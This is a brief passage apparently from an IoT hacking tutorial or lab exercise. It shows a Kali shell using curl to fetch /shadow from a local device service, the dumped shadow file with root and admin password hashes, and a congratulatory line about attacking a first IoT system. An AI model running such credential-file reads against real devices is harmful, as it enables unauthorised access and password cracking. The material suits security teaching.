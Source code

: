 ```bash
fesal@kali:~# curl http://localhost:8081/shadow          
root:$1$w3gB6MCu$F7n/OBgTalHP0u5O82RhV0:10933:0:99999:7:::
bin:*:10933:0:99999:7:::
daemon:*:10933:0:99999:7:::
adm:*:10933:0:99999:7:::
lp:*:10933:0:99999:7:::
sync:*:10933:0:99999:7:::
shutdown:*:10933:0:99999:7:::
halt:*:10933:0:99999:7:::
uucp:*:10933:0:99999:7:::
operator:*:10933:0:99999:7:::
nobody:*:10933:0:99999:7:::
admin:$1$x1GxPahw$/XD/2CcBwLurY1./Du7x21:10933:0:99999:7:::
```

Congrats, you have successfully attacked your first IoT system.
